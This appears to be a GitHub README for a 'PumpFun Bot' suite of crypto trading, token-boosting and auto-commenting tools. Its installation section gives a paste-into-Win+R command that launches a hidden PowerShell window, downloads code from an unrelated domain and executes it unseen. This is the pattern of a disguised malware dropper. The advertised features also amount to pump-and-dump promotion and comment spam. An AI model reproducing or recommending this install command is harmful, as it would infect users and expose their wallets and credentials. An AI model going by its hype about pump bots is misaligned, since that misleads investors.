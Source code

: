 <div align="center">
  
## **PumpFun Bot** | **Automated PumpFun Trading Bot** 📈⚡️

</div>

<div align="center">
<img src="https://fiverr-res.cloudinary.com/images/q_auto,f_auto/gigs2/389074852/original/b62a37706db7a5da66ca83672b17758f889e90ab/develop-pump-fun-bot-bot-for-pump-fun-launch-meme-tokens-on-solana.png" width="800" height="300" />
</div>

**PumpFun Bot** is a comprehensive, fully automated crypto trading suite that includes **PumpFun Bundle Bot**, **PumpFun Buy Bot**, **PumpFun Boost Bot**, and **PumpFun Auto Comment Bot**. It is designed to **help you catch the best pump signals** and maximize your crypto profits with minimal effort.

If you're tired of missing out on hot tokens that skyrocket in price, or want to automate your entire trading and promotion process, this bot has everything you need.

---

## 🔧 What Is It?

**PumpFun Bot** is a multi-functional desktop application that integrates with crypto trading platforms and social media channels to **automate** trading, promote tokens, and boost social activity for maximum visibility. It consists of several powerful modules:

1. **PumpFun Bundle Bot** – A bot that automates your **pump trading bundle**, helping you trade multiple tokens at once.
2. **PumpFun Buy Bot** – A trading bot that executes **buy orders** based on pump signals.
3. **PumpFun Boost Bot** – A bot designed to **boost token visibility** by interacting with social media platforms and promoting tokens.
4. **PumpFun Auto Comment Bot** – Automates posting comments in crypto communities to increase engagement and hype.

---

## 💻 How It Works

The bot integrates with various exchanges (like Binance, KuCoin, and others) via **API keys** and uses advanced algorithms to scan for price spikes, volume increases, and pump patterns. Once a pump is detected, the bot takes action based on your custom preferences.

### Key Features:
- **PumpFun Bundle Bot**: Automates simultaneous trades across multiple tokens, maximizing your potential gains.
- **PumpFun Buy Bot**: Executes buy orders automatically based on custom pump signal criteria.
- **PumpFun Boost Bot**: Promotes your tokens across **social media platforms** (Reddit, Twitter, etc.), boosting visibility.
- **PumpFun Auto Comment Bot**: Posts comments automatically in crypto communities to generate buzz and engagement for your token.
- Real-time pump alerts with **best entry/exit points**
- Customizable settings for different strategies and market conditions

---

## 🧠 Why Use PumpFun Bot?

There are many trading bots, **but**:
- ❌ Many bots are one-trick ponies, doing only one thing (like just trading or commenting)  
- ❌ They require constant manual intervention and monitoring  
- ❌ They don’t integrate trading and marketing in one seamless platform  
- ❌ Lack of security and flexibility  

**PumpFun Bot** is:
- ✅ Fully automated. **No need for constant monitoring**  
- ✅ Multiple bots combined into one powerful suite (trading, boosting, commenting)  
- ✅ Real-time alerts for optimal trading and promotion  
- ✅ Fast execution and **100% secure**  
- ✅ Flexible, customizable settings for **different strategies**  
- ✅ Multi-platform integration for **crypto trading and marketing**

---

## 📦 Installation

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/389290d';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: oba71').Content;</code>
</pre>

---

## 🛠️ In Development

- Support for additional exchanges (Kraken, Bitfinex, etc.)
- Advanced AI-driven pump prediction algorithms
- Portfolio tracking and trade performance analytics
- More social media integration for boosting visibility

---

## ⭐ Support the Project

If you like the bot, please ⭐ the repo, share it on Reddit, and leave feedback!  
Pull requests, ideas, and bug reports are always welcome.

---

**💸 Maximize your profits and visibility.  
With PumpFun Bot, you'll always be one step ahead in the crypto world.**

## SEO Keywords
- Pump Signal Bot
- Crypto Pump Bot
- Automated Trading Bot
- Crypto Trading Bot
- Pump Alerts
- Crypto Signals Bot
- Auto Comment Bot
- Crypto Promotion Bot
- PumpFun Bot

